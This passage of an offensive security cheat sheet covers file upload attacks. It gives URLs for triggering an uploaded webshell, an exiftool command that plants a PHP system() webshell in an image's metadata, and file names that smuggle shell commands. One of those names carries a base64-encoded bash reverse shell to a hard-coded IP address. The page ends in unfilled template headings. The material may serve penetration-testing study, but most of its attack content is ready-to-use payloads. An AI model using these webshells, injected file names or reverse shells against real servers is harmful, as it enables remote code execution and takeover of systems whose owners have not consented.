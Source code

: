 #### 3.4.5 File Execution

This is a very important step because if we have successfully upload a webshell or a malicious file **we want to be able to execute it** to get a reverse shell or execute our malicious code.

For this **attempt to access uploaded files via URL**, and ensure the uploaded file is executed in a web-accessible directory. If we want to get a reverse shell check the Utilities Section for commands, or use [https://revshells.com/](https://revshells.com/).

```bash
http://[TARGET_IP]/uploads/shell.php
or
http://[TARGET_IP]/uploads/shell.php?cmd=whoami
```

#### 3.4.6 Embed Code into Images

We can use `exiftool` for this, then we just need to rename it.

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

mv lo.jpg lo.php.jpg
```

#### 3.4.7 Embed Code into File Names

A common file upload attack uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed on the page, or directly executed in the server.

For example, if we name a file `file$(whoami).jpg` or file`whoami.jpg` or `file.jpg||whoami`, and then the web application attempts to move the uploaded file with an OS command (e.g. mv file /tmp), then our file name would inject the whoami command, which would get executed, leading to remote code execution.

```bash
# Crate the Base64 encoded command.
echo "bash -i >& /dev/tcp/192.168.45.166/444 0>&1" | base64

# Download any normal image, and give it the name: cat.jpg.
cp cat.jpg ’|smile”`echo <base64_bash_reverse_shell> | base64 -d | bash`”.jpg’
```

# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When and why you would use this technique?

# Examples
